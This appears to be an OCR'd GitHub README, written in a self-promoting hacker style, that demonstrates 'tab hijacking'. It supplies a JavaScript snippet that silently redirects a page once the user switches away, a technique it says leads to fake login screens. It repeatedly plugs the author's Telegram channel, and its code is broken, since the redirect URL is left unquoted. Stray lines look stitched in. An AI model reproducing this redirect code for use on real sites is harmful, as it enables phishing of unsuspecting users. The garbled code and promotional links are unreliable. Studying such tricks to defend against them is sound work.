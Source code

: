 # Tab-H1j4ck8
Hi I am MLRUMONHACKER this my telegram channel please join http://t.me/mlrumon
This educational project shows how Tab H1j@cking works — a trick where attackers hijack the original tab after a user opens a new one. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

🛡️ How to Protect Yourself
✅ Don’t trust tabs that open automatically
✅ Always check the URL before logging in
🌐 Free Hosting & Subdomain

https://youtu.be/TV8CI86w6PlE

🔁 Example JavaScript Code
You can test it in y0ur 0wn pr0ject:

let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href = http://t.me/mlrumon
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
🎥 Educational Demo

http://t.me/mlrumon

⚠️ Warning: This project is for educational purposes only. Never use it for malicious activities. Always obtain explicit consent before conducting any security tests.
